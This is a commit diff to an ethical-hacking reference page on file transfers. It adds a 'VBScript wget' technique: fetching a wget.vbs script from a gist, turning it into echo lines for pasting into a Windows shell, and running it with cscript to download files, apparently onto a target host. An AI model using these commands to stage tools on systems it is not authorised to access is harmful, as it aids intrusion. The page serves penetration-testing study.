

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/file_transfers.md, in a window 1280 px wide. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update file_transfers.md

````diff
--- a/source/file_transfers.md
+++ b/source/file_transfers.md
@@ -13,3 +13,15 @@ echo GET filename>> ftp.txt
 echo bye>> ftp.txt
 ftp -n -v -s:ftp.txt
 ```
+
+### VBScript wget
+
+```
+curl -L -O https://gist.githubusercontent.com/maddouri/da64f298e19bff0cd1ce46ee83317bfe/raw/90080a73b892b09dde9dd2c787814bac502d7f46/wget.vbs
+```
+```
+cat wget.vbs | sed -e 's/^/echo /' | sed -e 's/$/>> wget.vbs/' | xclip -i -selection clipboard
+```
+```
+cscript wget.vbs <url> (file)
+```
````
